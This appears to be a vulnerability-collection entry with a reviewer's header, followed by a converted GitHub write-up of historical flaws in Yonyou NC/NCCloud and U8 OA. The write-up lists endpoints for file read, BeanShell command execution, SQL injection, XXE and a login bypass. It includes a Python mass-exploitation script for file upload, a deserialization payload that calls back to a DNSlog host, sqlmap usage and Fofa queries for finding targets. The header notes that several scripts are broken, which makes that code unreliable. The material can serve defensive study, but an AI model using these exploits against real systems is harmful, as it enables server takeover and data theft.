# 用友NC/NCCloud及U8 OA 历史多漏洞/组件接口集合

## 条目说明

- 对象与具体问题：用友NC/NCCloud及U8 OA；历史多漏洞/组件接口集合
- 版本、配置及部署条件：各节不同；部分NC6.5，多数未知
- 认证与权限前提：混合暴露服务和登录入口
- 核验边界：已完成原始 Markdown 的文本审阅；未执行 PoC、未访问目标、未视检截图。来源所述影响与复现结果不等于本库独立验证。

## 证据边界与更正

以下记录原始资料的证据边界。可以由原文确定的产品、编号及格式问题已在本条修订；没有原始证据的版本、响应和补丁信息仍待核实。

- version误取/uapws/service；多产品不能整体归NC单实体
- FileReceive脚本multithreading参数file却open(filename)未定义，纯文本标记写jsp不足称Getshell
- Xbrl脚本URL拼接语法错误、DNS长度字段硬编码且改域未更新；URLDNS仅证反序列化不证命令执行
- 控制台改返回0为1仅客户端界面变化，必须服务端权限验证；XXE节只有WSDL无实体请求
- BeanShell多模块路由是部署变体非几十独立漏洞

## 操作风险

命令/代码执行示例可能改变主机状态。保留原示例供静态分析；仅可在明确授权的隔离测试环境验证，事先准备备份与回滚。

## 技术资料与来源记录

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [github.com](https://github.com/j2ekim/YonyouNC_Tip)

[](#0x00-前言)0x00 前言
-------------------

整理下用友NC历史漏洞

[](#0x01-工具)0x01 工具
-------------------

[用友NC_POC检测](https://github.com/kezibei/yongyou_nc_poc)

[用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)

[ncDecode---用友nc数据库密码解密](https://github.com/jas502n/ncDecode)

[](#0x02-配置文件)0x02 配置文件
-----------------------

#### [](#21-webxml)2.1 WEB.xml

```
/webapps/nc_web/WEB-INF/web.xml 
```

```
	<servlet-mapping>
	  <servlet-name>NCInvokerServlet</servlet-name>
	  <url-pattern>/service/*</url-pattern>
	</servlet-mapping>
	
	<servlet-mapping>
	  <servlet-name>NCInvokerServlet</servlet-name>
	  <url-pattern>/servlet/*</url-pattern>
	</servlet-mapping>
```

#### [](#22-propxml数据库配置)2.2 prop.xml(数据库配置)

```
/ierp/bin/prop.xml 
```

```
<dataSource>
<dataSourceName>nc</dataSourceName>
<oidMark>C2</oidMark>
<databaseUrl>jdbc:sqlserver://127.0.0.1:1433;database=nc;sendStringParametersAsUnicode=false</databaseUrl>
<user>nc</user>
<password>jlehfdffcfmohiag</password>
<driverClassName>com.microsoft.sqlserver.jdbc.SQLServerDriver</driverClassName>
<databaseType>SQLSERVER</databaseType>
<maxCon>50</maxCon>
<minCon>10</minCon>
<dataSourceClassName>nc.bs.mw.ejb.xares.IerpDataSource</dataSourceClassName>
<xaDataSourceClassName>nc.bs.mw.ejb.xares.IerpXADataSource</xaDataSourceClassName>
<conIncrement>0</conIncrement>
<conInUse>0</conInUse>
<conIdle>0</conIdle>
</dataSource>
```

[](#0x03-漏洞整理)0x03 漏洞整理
-----------------------

#### [](#31-任意文件读取)3.1 任意文件读取

`filename`参数可以读取下列所有文件，在某些情况下可以读取利用目录穿越可读取/etc/passwd等文件

```
http://x.x.x.x/NCFindWeb?service=IPreAlertConfigService&filename=/ 
```

[](../../.resource/remote/95e908c8f56273cc36f2797658c396845e2807fa824fd225769833975f80e13b.png)

#### [](#32-bshservletbshservlet-远程命令执行漏洞)3.2 `bsh.servlet.BshServlet` 远程命令执行漏洞

用友 `NC bsh.servlet.BshServlet` 存在远程命令执行漏洞，通过 `BeanShell` 执行远程命令获取服务器权限。

poc：

```
http://x.x.x.x/service/~aim/bsh.servlet.BshServlet
http://x.x.x.x/service/~alm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ampub/bsh.servlet.BshServlet
http://x.x.x.x/service/~arap/bsh.servlet.BshServlet
http://x.x.x.x/service/~aum/bsh.servlet.BshServlet
http://x.x.x.x/service/~cc/bsh.servlet.BshServlet
http://x.x.x.x/service/~cdm/bsh.servlet.BshServlet
http://x.x.x.x/service/~cmp/bsh.servlet.BshServlet
http://x.x.x.x/service/~ct/bsh.servlet.BshServlet
http://x.x.x.x/service/~dm/bsh.servlet.BshServlet
http://x.x.x.x/service/~erm/bsh.servlet.BshServlet
http://x.x.x.x/service/~fa/bsh.servlet.BshServlet
http://x.x.x.x/service/~fac/bsh.servlet.BshServlet
http://x.x.x.x/service/~fbm/bsh.servlet.BshServlet
http://x.x.x.x/service/~ff/bsh.servlet.BshServlet
http://x.x.x.x/service/~fip/bsh.servlet.BshServlet
http://x.x.x.x/service/~fipub/bsh.servlet.BshServlet
http://x.x.x.x/service/~fp/bsh.servlet.BshServlet
http://x.x.x.x/service/~fts/bsh.servlet.BshServlet
http://x.x.x.x/service/~fvm/bsh.servlet.BshServlet
http://x.x.x.x/service/~gl/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrhi/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrjf/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpd/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrtrn/bsh.servlet.BshServlet
http://x.x.x.x/service/~hrwa/bsh.servlet.BshServlet
http://x.x.x.x/service/~ia/bsh.servlet.BshServlet
http://x.x.x.x/service/~ic/bsh.servlet.BshServlet
http://x.x.x.x/service/~iufo/bsh.servlet.BshServlet
http://x.x.x.x/service/~modules/bsh.servlet.BshServlet
http://x.x.x.x/service/~mpp/bsh.servlet.BshServlet
http://x.x.x.x/service/~obm/bsh.servlet.BshServlet
http://x.x.x.x/service/~pu/bsh.servlet.BshServlet
http://x.x.x.x/service/~qc/bsh.servlet.BshServlet
http://x.x.x.x/service/~sc/bsh.servlet.BshServlet
http://x.x.x.x/service/~scmpub/bsh.servlet.BshServlet
http://x.x.x.x/service/~so/bsh.servlet.BshServlet
http://x.x.x.x/service/~so2/bsh.servlet.BshServlet
http://x.x.x.x/service/~so3/bsh.servlet.BshServlet
http://x.x.x.x/service/~so4/bsh.servlet.BshServlet
http://x.x.x.x/service/~so5/bsh.servlet.BshServlet
http://x.x.x.x/service/~so6/bsh.servlet.BshServlet
http://x.x.x.x/service/~tam/bsh.servlet.BshServlet
http://x.x.x.x/service/~tbb/bsh.servlet.BshServlet
http://x.x.x.x/service/~to/bsh.servlet.BshServlet
http://x.x.x.x/service/~uap/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapbd/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapde/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapeai/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapother/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapqe/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapweb/bsh.servlet.BshServlet
http://x.x.x.x/service/~uapws/bsh.servlet.BshServlet
http://x.x.x.x/service/~vrm/bsh.servlet.BshServlet
http://x.x.x.x/service/~yer/bsh.servlet.BshServlet 
```

[](../../.resource/remote/2f8769f53bdd7381ca4fe56e30aa15e764efe0e46ad43f3ec637fc8b0718f16b.png)

#### [](#33-用友-nccloud-fs-文件管理-sql-注入)3.3 用友 `NCCloud FS` 文件管理 `SQL` 注入

用友 `NCCloud FS` 文件管理登录页面对用户名参数没有过滤，存在 `SQL` 注入。

Fofa:

```
"/platform/yonyou-yyy.js" 
```

`nccloud` 登录界面：

[](../../.resource/remote/349f38ac35d0b68b06a09fe8a4abc657cd5a1229c268b4b67d3221b964abde8f.png)

文件服务器管理登录页面：

```
http://x.x.x.x/fs/ 
```

[](../../.resource/remote/8c1c83c2dc1e85c6c34540e1aefeea7bafeed86530e7e1366674141128ff9f2d.png)

`username`参数存在注入，抓取登录数据包：

```http
GET /fs/console?username=1&password=00PGRLxSTe3VroI21qJNymCrZfPX1UQ4ij0gIWn2Gc4%3D HTTP/1.1
Host: x.x.x.x
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:88.0) Gecko/20100101 Firefox/88.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://x.x.x.x/fs/
Cookie: JSESSIONID=FFAE8EF48BD3BEF7E94B5449B8F9BA90.server
Upgrade-Insecure-Requests: 1	
```

`sqlmap` 跑注入：

```
sqlmap -r text.txt -p username 
```

[](../../.resource/remote/0ed95aa910bc4e6c34b907a6f5edcbaea581d9ee940f54ad55db6a8a880c0bef.png)

#### [](#34-用友-nc-65-未授权文件上传漏洞)3.4 用友 `NC 6.5` 未授权文件上传漏洞

用友 `NC6.5` 版本存在未授权文件上传漏洞，攻击者可以未授权上传任意文件，进而获取服务端控制权限。

Fofa:

```
"/platform/yonyou-yyy.js" 
```

POC:

```
import requests
import threadpool
import urllib3
import sys
import argparse

urllib3.disable_warnings()
proxies = {'http': 'http://localhost:8080', 'https': 'http://localhost:8080'}
header = {
    "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
    "Content-Type": "application/x-www-form-urlencoded",
    "Referer": "https://google.com",
}

def multithreading(funcname, file, pools=5):
    works = []
    with open(filename, "r") as f:
        for i in f:
            func_params = [i.rstrip("\n")]
            works.append((func_params, None))
    pool = threadpool.ThreadPool(pools)
    reqs = threadpool.makeRequests(funcname, works)
    [pool.putRequest(req) for req in reqs]
    pool.wait()

def wirte_targets(vurl, filename):
    with open(filename, "a+") as f:
        f.write(vurl + "\n")
        return vurl
    
def exp(u):
    uploadHeader = {
        "User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36",
        "Content-Type": "multipart/form-data;",
        "Referer": "https://google.com"
    }
    uploadData = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x02\x74\x00\x09\x46\x49\x4c\x45\x5f\x4e\x41\x4d\x45\x74\x00\x09\x74\x30\x30\x6c\x73\x2e\x6a\x73\x70\x74\x00\x10\x54\x41\x52\x47\x45\x54\x5f\x46\x49\x4c\x45\x5f\x50\x41\x54\x48\x74\x00\x10\x2e\x2f\x77\x65\x62\x61\x70\x70\x73\x2f\x6e\x63\x5f\x77\x65\x62\x78"
    shellFlag="t0test0ls"
    uploadData+=shellFlag
    try:
        req1 = requests.post(u + "/servlet/FileReceiveServlet", headers=uploadHeader, verify=False, data=uploadData, timeout=25)
        if req1.status_code == 200 :
            req3=requests.get(u+"/t00ls.jsp",headers=header, verify=False, timeout=25)

            if  req3.text.index(shellFlag)>=0:
                printFlag = "[Getshell]" + u+"/t00ls.jsp"  + "\n"
                print (printFlag)
                wirte_targets(printFlag, "vuln.txt")
    except :
        pass
    #print(printFlag, end="")


if __name__ == "__main__":
    if (len(sys.argv)) < 2:
        print('useage : python' +str(sys.argv[0]) + ' -h')
    else:
        parser =argparse.ArgumentParser()
        parser.description ='YONYOU UC 6.5 FILE UPLOAD!'
        parser.add_argument('-u',help="url -> example [url]http://127.0.0.1[/url]",type=str,dest='check_url')
        parser.add_argument('-r',help="url list to file",type=str,dest='check_file')
        args =parser.parse_args()
        if args.check_url:
            exp(args.check_url)
        
        if(args.check_file):
            multithreading(exp, args.check_file, 8)
```

当然也可以利用工具

[用友NC-OA漏洞合集](https://github.com/asdasdqkq1/yonyou-nc-exp)

#### [](#35-用友-nc-xbrlpersistenceservlet-反序列化)3.5 用友 `NC XbrlPersistenceServlet` 反序列化

已知用友 `NC6.5` 版本存在反序列化漏洞，攻击者可以执行系统命令，获取服务端权限。

```
/service/~xbrl/XbrlPersistenceServlet 
```

POC:

```
import requests
import threadpool
import urllib3
import sys
import base64

ip = "x.x.x.x"
dnslog = "*****" #dnslog把字符串转16进制替换该段，测试用的ceye.io可以回显
data = "\xac\xed\x00\x05\x73\x72\x00\x11\x6a\x61\x76\x61\x2e\x75\x74\x69\x6c\x2e\x48\x61\x73\x68\x4d\x61\x70\x05\x07\xda\xc1\xc3\x16\x60\xd1\x03\x00\x02\x46\x00\x0a\x6c\x6f\x61\x64\x46\x61\x63\x74\x6f\x72\x49\x00\x09\x74\x68\x72\x65\x73\x68\x6f\x6c\x64\x78\x70\x3f\x40\x00\x00\x00\x00\x00\x0c\x77\x08\x00\x00\x00\x10\x00\x00\x00\x01\x73\x72\x00\x0c\x6a\x61\x76\x61\x2e\x6e\x65\x74\x2e\x55\x52\x4c\x96\x25\x37\x36\x1a\xfc\xe4\x72\x03\x00\x07\x49\x00\x08\x68\x61\x73\x68\x43\x6f\x64\x65\x49\x00\x04\x70\x6f\x72\x74\x4c\x00\x09\x61\x75\x74\x68\x6f\x72\x69\x74\x79\x74\x00\x12\x4c\x6a\x61\x76\x61\x2f\x6c\x61\x6e\x67\x2f\x53\x74\x72\x69\x6e\x67\x3b\x4c\x00\x04\x66\x69\x6c\x65\x71\x00\x7e\x00\x03\x4c\x00\x04\x68\x6f\x73\x74\x71\x00\x7e\x00\x03\x4c\x00\x08\x70\x72\x6f\x74\x6f\x63\x6f\x6c\x71\x00\x7e\x00\x03\x4c\x00\x03\x72\x65\x66\x71\x00\x7e\x00\x03\x78\x70\xff\xff\xff\xff\x00\x00\x00\x50\x74\x00\x11"+dnslog+"\x3a\x38\x30\x74\x00\x00\x74\x00\x0e"+dnslog+"\x74\x00\x04\x68\x74\x74\x70\x70\x78\x74\x00\x18\x68\x74\x74\x70\x3a\x2f\x2f"+dnslog+"\x3a\x38\x30\x78"

uploadHeader={"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/74.0.3729.169 Safari/537.36"}
req = requests.post("http://+"ip"+/service/~xbrl/XbrlPersistenceServlet", headers=uploadHeader, verify=False, data=data, timeout=25)
print (req.text)
```

#### [](#36-用友-u8-oa-sql注入漏洞)3.6 用友 `U8 OA` `SQL`注入漏洞

用友 `U8 OA test.jsp` 文件存在 `SQL` 注入漏洞

Fofa:

```
"/yyoa/seeyonoa/common/" 
```

POC:

```
/yyoa/common/js/menu/test.jsp?doType=101&S1=(SELECT%20MD5(1)) 
```

[](../../.resource/remote/7e8dc171be7a943d06e4b43fcb16518c9c6bb732885e3d3db9ed6ccd62979637.png)

`sqlmap`跑一下

[](../../.resource/remote/04c36398e478f12c36ab5079e3d9b83eb8cb28b7f621776dbb99e38ff02d6578.png)

#### [](#37-xxe漏洞)3.7 xxe漏洞

接口处的XXE漏洞

POC:

```
/uapws/service/nc.uap.oba.update.IUpdateService?wsdl 
```

[](../../.resource/remote/b04aa58700e8244081ae7dd9a06758756cb4c689228181479ec5855076501c93.png)

#### [](#38-接口信息泄露)3.8 接口信息泄露

在其中有个接口可以获取数据库账户密码，不过是老版本了

```
/uapws/service 
```

[](../../.resource/remote/92660a1f114fb144c8f242bc04360ee0d59ac27f2c482de7d622e55f086ee52b.png)

#### [](#39-控制台密码绕过)3.9 控制台密码绕过

```
/uapws/index.jsp 
```

账户密码随便填，抓包将返回包0改为1,即可任意用户登录

[](../../.resource/remote/9be41cc1f5d32c2c7df8748fde303f870e82f99df6d2f966ad58623bb9801886.png)

[](../../.resource/remote/1aac632a59f8b571a865701b56d7acddc3b6d9de75388e36a6fb3497c71a7bd6.png)

[](#0x04-参考)0x04 参考
-------------------

[整理一下用友NC已知的漏洞](https://mp.weixin.qq.com/s/1GZKGKCYt5Dg6NTA_6ylvQ)

[『渗透测试』用友各种漏洞整理](https://mp.weixin.qq.com/s/tKqGdMlzAhKuSLtUv6E9-g)

[用友NC历史漏洞(含POC)](https://mp.weixin.qq.com/s/xVKuJb3DbKH0em0HoMZ4ZQ)

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
